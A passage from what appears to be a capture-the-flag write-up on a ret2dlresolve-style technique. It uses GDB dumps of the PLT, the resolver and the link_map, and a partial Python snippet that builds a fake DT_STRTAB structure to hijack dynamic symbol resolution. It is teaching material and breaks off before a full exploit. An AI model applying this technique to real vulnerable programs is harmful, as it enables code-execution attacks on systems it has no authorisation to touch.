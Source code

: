We just need up to l_info and that's enough. This is the view of those variable in GDB:

```
gef➤  # 0x400530 <memset@plt>
gef➤  x/3i 0x400530
   0x400530 <memset@plt>:       jmp    QWORD PTR [rip+0x200aea]        # 0x601020 <memset@got.plt>
   0x400536 <memset@plt+6>:     push   0x1                             # reloc_arg
   0x40053b <memset@plt+11>:    jmp    0x400510                        # dlresolver

gef➤  # x/2i (dlresolver)
gef➤  x/2i 0x400510
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008 (pointer of link_map)
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010 (pointer of _dl_runtime_resolve_xsavec)

gef➤  # x/xg (pointer of link_map)
gef➤  x/xg 0x601008
0x601008:   0x00007ffff7ffe180

gef➤  # x/32xg (link_map)
gef➤  x/16xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720    <-- l_addr              l_name
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730    <-- l_ld                l_next
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180    <-- l_prev              l_real
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708    <-- l_ns                l_libname
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info[0]           l_info[1]
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0    <-- l_info[2]           l_info[3]
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[4]           l_info[DT_STRTAB]
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30    <-- l_info[DT_SYMTAB]   l_info[7]
```

So our goal is to change the value at DT_STRTAB index (change `0x0000000000600ea0` to desired address). The other variable before l_info[DT_STRTAB] we can set it to null. Because `_dl_fixup` will just use `l_addr` and `l_info` to resolve but we can see that `l_addr` is already null. That mean's we just write null byte address until `l_info[DT_STRTAB]`. 

And the structure of `l_info[DT_STRTAB]` in GDB look like this:

```
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:   0x0000000000000005   0x0000000000400380    <-- DT_STRTAB    STRTAB
```

So we will create a fake structure of `l_info[DT_STRTAB]` and fake the STRTAB address too. This requires us to know about the address where we place the structure in. I will take the example of [DiceCTF 2022 - dataeater](https://github.com/nhtri2003gmail/writeup-ctf.dicega.ng-dataeater). 

First, we will construct the fake `l_info[DT_STRTAB]` with a global variable:

```
buf_addr = 0x601080                    # global variable address

DT_STRTAB_addr = buf_addr + 8
DT_STRTAB_struct = p64(5)
DT_STRTAB_struct += p64(0xdeadbeef)    # Unknown address, temporary
```
